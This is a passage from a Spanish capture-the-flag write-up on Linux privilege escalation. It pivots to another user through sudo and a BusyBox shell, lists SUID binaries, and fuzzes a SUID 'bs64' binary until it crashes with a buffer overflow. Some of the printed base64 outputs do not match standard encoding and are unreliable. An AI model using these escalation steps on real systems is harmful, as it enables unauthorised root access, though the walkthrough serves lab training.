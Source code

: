 ```bash
 netstat, nl, nologin, nproc, nsenter, nslookup, nuke, od, openvt, partprobe, paste, patch, pidof, ping, ping6, pivot_root, poweroff, printf, ps, pwd, rdate, readlink, realpath, reboot, renice, reset, resume, rev, rm, rmdir, rmmod, route, rpm, rpm2cpio,
 run-init, run-parts, sed, seq, setkeycodes, setpriv, setsid, sh, sha1sum, sha256sum, sha3sum, sha512sum, shred, shuf, sleep, sort, ssl_client, start-stop-daemon, stat, strings, stty, svc, svok, swapoff, swapon, switch_root, sync, sysctl, syslogd, tac, tail,
 tar, taskset, tee, telnet, test, tftp, time, timeout, top, touch, tr, traceroute, traceroute6, true, truncate, ts, tty, ubirename, udhcpc, udhcpd, uevent, umount, uname, uncompress, unexpand, uniq, unix2dos, unlink, unlzma, unshare, unxz, unzip, uptime, usleep,
 uudecode, uuencode, vconfig, vi, w, watch, watchdog, wc, wget, which, who, whoami, xargs, xxd, xz, xzcat, yes, zcat
```

Migramos al usuario:
```bash
# Comando para escalar al usuario: ( astu )
sudo -u astu /usr/bin/busybox sh
```

###### Usuario `[ astu ]`:
Listando por binarios con permisos **SUID**
```bash
find / -perm -4000 2>/dev/null
```

Tenemos un binario:
```bash
/home/astu/secure/bs64
```

Si ejecutamos el binario tenemos que nos devuelve una cadena en **base64**
```bash
/bs64
Ingrese el texto: hola

aG9YS=
```

Ahora probaremos si es vulnerable **BufferOverFlow** para determinar esto usaremos python3 para crear 200 letras **A**
```bash
python3 -c 'print("A"*200)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

Tenemos un **bufferOverFlow**:
```bash
Ingrese el texto: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
QUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQUFQU=

Segmentation fault
```
